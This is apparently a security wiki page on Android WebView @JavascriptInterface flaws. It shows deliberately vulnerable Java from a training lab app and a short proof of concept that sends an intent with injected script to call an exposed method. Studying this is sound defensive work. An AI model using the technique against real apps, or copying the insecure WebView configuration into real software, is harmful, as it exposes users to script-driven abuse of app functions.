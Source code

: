 ```yaml
---
description: A View that displays web pages.
---
```


# webview

## @JavascriptInterface

A Java function that contains the decorator `@JavascriptInterface` can be exposed into a webview. Vulnerable code:

```java
private void configureWebView() {
        WebSettings webSettings = this.webView.getSettings();
        webSettings.setJavaScriptEnabled(true);
        webSettings.setSafeBrowsingEnabled(false);
        this.webView.setWebChromeClient(new WebChromeClient());
        this.webView.setWebViewClient(new WebViewClient());
        this.webView.addJavascriptInterface(new JavaScriptInterface(), "Android");
    }

    /* loaded from: classes3.dex */
    public class JavaScriptInterface {
        public JavaScriptInterface() {
        }

        @JavascriptInterface
        public void showToast(String message) {
            Toast.makeText(MainActivity.this, message, 0).show();
        }

        @JavascriptInterface
        public void showFlag() {
            Toast.makeText(MainActivity.this, "HXT{java-in-a-webview}", 0).show();
        }
    }
```

Example of exploitation:

```java
private void sendHtmlIntent() {
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("io.hextree.webviewdemo", "io.hextree.webviewdemo.MainActivity"));
        intent.putExtra("htmlContent", "<html><body><script>Android.showFlag();</script></body></html>");
        startActivity(intent);
    }
```

## References

{% embed url="https://developer.android.com/reference/android/webkit/WebView" %}

{% embed url="https://app.hextree.io/" %}

{% embed url="https://blog.oversecured.com/Android-security-checklist-webview/#typical-example-of-the-vulnerability" %}
